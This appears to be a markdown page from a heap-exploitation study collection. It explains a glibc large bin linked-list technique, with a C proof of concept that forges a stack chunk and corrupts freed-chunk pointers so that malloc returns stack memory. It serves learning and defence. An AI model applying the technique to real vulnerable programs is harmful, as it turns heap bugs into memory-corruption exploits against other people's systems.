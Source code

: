 <details>
<summary><strong>Description</strong></summary>
<p>

Similar to the unsorted bin linked list, our goal is to allocate a ptr on the stack from malloc. However this time we will be leveraging the large bin. However, the process will be pretty similar...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk1, *chunk2, stack_array[140], *chunk3;

    // allocate two big chunks
    chunk1 = malloc(0x420);
    malloc(0x18); // padding chunk to prevent consolidation
    chunk2 = malloc(0x420);
    malloc(0x18); // padding chunk to prevent consolidation

    free(chunk1); // insert them into the unsorted bin
    free(chunk2);

    // malloc a chunk larger than any other unsorted bin chunks to move the three chunks over to the large bin
    malloc(0x420 + 0x10);
    // [largebin 0x400-0x430]: chunk1 -> chunk2

    // create the large bin fake chunk header
    // stack_array[0] = 0x000; // fake chunk's prev_size (usually we dont need to care about this)
    stack_array[1] = 0x431; // fake chunk's size (turn on the prev_inuse for easier)

    // add a fake heap chunk header, right after the end of our fake large bin bin chunk
    // this is because there are checks for the next adjacent chunk since if malloc properly allocated this (fake) chunk, there would be one there
    stack_array[134] = 0x430; // fake adjacent chunk prev_size
    stack_array[135] = 0x050; // fake adjacent chunk size (turn off the prev_inuse)

    // set the fwd/bk pointers of our large bin fake chunk, so that they point to the two chunks were linking to here
    stack_array[2] = ((long)chunk2 - 0x10); // fwd
    stack_array[3] = ((long)chunk1 - 0x10); // bk

    // clear out the fd_nextsize/bk_nexsize of large bin skiplist
    stack_array[4] = 0x00;
    stack_array[5] = 0x00;

    /*VULNERABILITY*/
    chunk1[0] = (long)(stack_array); // fwd
    chunk2[1] = (long)(stack_array); // bk
    /*VULNERABILITY*/
    // [largebin 0x400-0x430]: chunk1 -> fake_chunk -> chunk2

    // allocate our fake large bin chunk that is on the stack
    chunk3 = malloc(0x420);

    printf("chunk3: %p\n", chunk3);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

this is going to be pretty similar to the unsorted bin linked list demo. The primary differences here include, that we are doing it with large bin chunks instead of the unsorted bin. In addition to that, since we are dealing with large bin chunks, I am having to set the skiplist ptrs (fd_nextsize/bk_nexsize) to 0x00, to prevent issues (if we leave it as whatever was on the stack, it will interpret that data as memory addresses, and try to dereference them, which can cause issues).

so just to recap on how this works. We will get 2 chunks into the large bin via several mallocs/frees. These 2 chunks will be the same size. Since they are the same size, only one of these chunks will be in the large bin skip list. Then we will continue with creating a fake chunk on the stack. This includes setting the prev_size (0x00), chunk size (0x431), fwd/bk ptrs, and skip_list ptrs (0x00). In addition to that, we will need to set the fake chunk header after our chunk (prev_size of 0x430 to match our fake chunk size).

after that, we will insert our fake stack large bin chunk into the large bin. We will simply set the fwd/bk pointers to match our fake stack chunk, and vice versa. Since we aren't dealing with skip list chunks, this simplifies the process. With that, we have effectively inserted our fake stack chunk into the large bin.

after that, all that is left is to allocate it. If there are multiple chunks of the same size in the large bin, the large bin will allocate chunks not in the skip list first, so it doesn't have to update the skip list. So it will directly allocate our fake chunk, which is the foward chunk of the one has skip list.

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/bin_overviews/large_bins.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/large_bin/linked_list/readme.md
> i modified it a little bit (easier) (but it's worth to read)

</p>
</summary>